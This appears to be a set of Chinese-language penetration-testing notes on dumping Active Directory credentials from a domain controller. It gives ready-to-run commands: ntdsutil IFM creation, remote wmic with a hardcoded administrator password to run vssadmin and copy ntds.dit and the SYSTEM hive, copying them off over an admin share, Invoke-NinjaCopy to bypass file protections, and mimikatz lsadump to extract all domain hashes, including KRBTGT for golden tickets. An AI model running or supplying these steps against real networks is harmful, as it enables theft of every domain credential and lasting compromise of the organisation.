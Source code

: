 	8-0x01 使用 NTDSUtil 创建 IFM 抓取 DC 本地的Ntds.dit文件 (VSS 卷影复制)
		NTDSUtil一个本地运行的针对活动目录数据库(ntds.dit)的命令,并且允许为DCPromo准备IFM集。
		IFM是用于DCPromo命令中"从媒体安装"这一过程的,所以,在配置域控时就不需要通过网络从其他域控拷贝数据。
		IFM集,并且也会在c:/temp目录下生成的一份NTDS.dit附件。
			ntdsutil "ac i ntds" "ifm" "create full c:\windows\temp\temp" q q
		创建了temp目录,下面会生成 ntds.dit 和 SYSTEM / SECURITY
		这个命令也可以通过 WMI 或 PowerShell 远程执行。
			
	8-0x02 使用 VSS 卷影副本远程读取 ntds.dit(通过 WMI or PowerShell 远程管理)
		ntds.dit我们是没法直接进行复制拷贝的,会提示文件已被占用,这个时候我们可以通过windows提供的卷影复制功能来复制被进程占用的文件(xp和server 2003以上都存在此功能)
		a. wmic /node:AD /user:PENTEST\Administrator /password:123qwe!@# process call create "cmd /c vssadmin create shadow /for=c: 2>&1 > c:\vss.log"
		当 VSS 快照完成后,我们就可以从 VSS 中将 NTDS.dit 文件和 注册表中的 System hive 复制到域控制器的 C 盘中。

		b1. wmic /node:AD /user:PENTEST\Administrator /password:123qwe!@# process call create "cmd /c copy 卷影ID\Windows\NTDS\NTDS.dit C:\windows\temp\NTDS.dit 2>&1 > c:\vss2.log"
		b2. wmic /node:AD /user:PENTEST\Administrator /password:123qwe!@# process call create "cmd /c copy 卷影ID\Windows\System32\config\SYSTEM C:\windows\temp\SYSTEM.hive 2>&1 > c:\vss2.log"
		之后就可以将域控制器中 c:\\temp 目录的文件复制到本地的计算机中。

		copy /z \\demo.local\c$\windows\temp\NTDS.dit c:\temp
		copy /z \\demo.local\c$\windows\temp\SYSTEM.hive c:\temp
		较新版本的 Windows 中 WMIC 已经有些过时了。 PowerShell 提供了 Invoke-WMIMethod cmdlet 可以执行相同的功能。
	
	8-0x03 使用 PowerSploit 的 Invoke-NinjaCopy 远程读取 ntds.dit(需要目标 DC 启用 PowerShell 远程管理)
		Joe Bialek (@JosephBialek)在他的博客中写了如下关于 Invoke-NinjaCopy 的信息。
		目前,已有好几种方法可以转储 Active Directory 和本地密码的 HASH。
		不过直到最近,我发现目前获取 HASH 的技术,需 要依赖于注入代码到 LSASS 进程或使用 VSS ,以获得含有 HASH 文件的副本。
		Invoke-NinjaCopy 的 PowerShell 脚本,支持任何文件(包括NTDS.DIT)的复制,
		无需启动可疑的服务,无需注入代码到进程中,或者提升到 SYSTEM 权限。
		该脚本可以打开整个卷(如C:)的读取句柄并解析 NTFS 结构,从而从一个 NTFS 卷复制文件。此操作需要目标服务器的管理员权限。利用此脚本可以绕过以下保护措施:
		一个已被进程打开且不能被其他进程操作的文件,如 Ntds.dit 文件或注册表中的 SYSTEM hive 配置文件。
		已被设置 SACL 标志的文件,在打开此类文件时,会有提醒(此脚本没有使用 Win32 API 打开文件,因此Windows 没有反应)。
		绕过 DACL ,例如 DACL 只允许 SYSTEM 权限打开一个文件。
		如果指定了 LocalDestination 参数,则文件将被复制到本地服务器(脚本正在从运行的服务器)中指定的文件路径。
		如果指定了 RemoteDestination 参数,则该文件将被复制到远程服务器中指定的文件路径。
		Invoke-NinjaCopy -Path "c:\windows\ntds\ntds.dit" -ComputerName "RDLABDC02" -LocalDestination "c:\temp\ntds.dit"
		使用 DIT 快照查看器(https://github.com/yosqueoy/ditsnap) ,可以验证我们是否顺利拿到了Ntds.dit 文件。
		
	8-0x04 在 DC 中使用 Mimikatz 转储 Active Directory 凭据
		一般情况下服务帐户就是域管理员组或同等权限的成员或者攻击者从域管理员最近登录到的计算机中 dump 出登录凭证。
		使用这些凭据,攻击者可以访问域控制器,并可以得到所有的域凭据,其中包括用于创建 Kerberos 的黄金票证的 KRBTGT 帐户的 NTLM 哈希值。
		1. mimikatz.exe从域控上面抓取到所有账户信息:
		mimikatz lsadump::lsa /inject exit
		保存到mimikatz.log:
		# log
		# privilege::debug
		# lsadump::lsa /inject
		在域控制器上运行时,Active Directory域中转储凭证数据。需要管理员访问调试或本地SYSTEM权限
		注意:RID 502的帐户是KRBTGT帐户,RID 500的帐户是该域的默认管理员。
				